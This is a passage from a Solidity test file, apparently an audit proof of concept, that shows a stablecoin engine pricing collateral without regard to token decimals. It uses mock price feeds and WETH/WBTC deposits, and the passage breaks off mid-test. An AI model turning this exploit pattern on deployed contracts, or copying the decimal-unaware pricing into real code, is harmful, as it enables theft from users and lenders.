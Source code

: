 ```solidity
        // The exploiter is not given any WBTC.

        wethDecimals = ERC20DecimalsMock(weth).decimals();
        wbtcDecimals = ERC20DecimalsMock(wbtc).decimals();
        feedDecimals = helperConfig.FEED_DECIMALS();
    }

    /**
     * @notice This test is based on a very real possible scenario involving WETH and WBTC.
     *
     * On Ethereum mainnet, WETH and WBTC have 18 and 8 decimals, respectively.
     * The current prices of WETH and WBTC are close to $2,000 and $30,000, respectively.
     * The `TSCEngine` allows a user to borrow up to the liquidation threshold.
     * The `TSCEngine` fails to account for token decimals when computing USD prices.
     */ 
    function testExploitTokenDecimals() public {
        // Set initial prices.
        MockV3Aggregator(ethUsdPriceFeed).updateAnswer(int256(2_000 * 10**feedDecimals)); // $2,000
        MockV3Aggregator(btcUsdPriceFeed).updateAnswer(int256(30_000 * 10**feedDecimals)); // $30,000

        // A user borrows the maximum possible amount of TSC using WETH as collateral.
        vm.startPrank(user);
        uint256 amountWethDeposited = 1 * 10**wethDecimals; // 1 WETH
        uint256 expectedValueWeth = 2_000 ether; // $2,000
        uint256 amountTSCFromWeth = (expectedValueWeth * LIQUIDATION_THRESHOLD) / LIQUIDATION_PRECISION;
        ERC20DecimalsMock(weth).approve(address(TSCe), amountWethDeposited);
        TSCe.depositCollateralAndMintTSC(weth, amountWethDeposited, amountTSCFromWeth);
        assertEq(TSC.balanceOf(user), amountTSCFromWeth);
        vm.stopPrank();

        // The user's 1 WETH should be worth $2,000 as we expect.
        uint256 valueWeth = TSCe.getUsdValue(weth, amountWethDeposited);
        assertEq(valueWeth, expectedValueWeth);

        // Similarly, the reciprocal is true.
        uint256 amountWeth = TSCe.getTokenAmountFromUsd(weth, expectedValueWeth);
        assertEq(amountWeth, amountWethDeposited);

        // Now the user borrows more TSC using WBTC collateral.
        // The flawed price computation ensures that the user can't borrow much at all, but they will anyway.
        vm.startPrank(user);
        uint256 amountWbtcDeposited = 1 * 10**wbtcDecimals; // 1 WBTC
        // This is the flaw! Given WBTC's 8 decimals, this WBTC is priced at $0.000003 instead of $30,000.
        uint256 expectedValueWbtc = 30_000 * 10**wbtcDecimals; // $0.000003 != $30,000
        uint256 amountTSCFromWbtc = (expectedValueWbtc * LIQUIDATION_THRESHOLD) / LIQUIDATION_PRECISION;
        ERC20DecimalsMock(wbtc).approve(address(TSCe), amountWbtcDeposited);
        TSCe.depositCollateralAndMintTSC(wbtc, amountWbtcDeposited, amountTSCFromWbtc);
        assertEq(TSC.balanceOf(user), amountTSCFromWeth + amountTSCFromWbtc);
        vm.stopPrank();

        // The user's 1 WBTC is worth far too little.
        uint256 valueWbtc = TSCe.getUsdValue(wbtc, amountWbtcDeposited);
        assertEq(valueWbtc, expectedValueWbtc);

        // Similarly, the reciprocal is true.
        uint256 amountWbtc = TSCe.getTokenAmountFromUsd(wbtc, expectedValueWbtc);
        assertEq(amountWbtc, amountWbtcDeposited);

```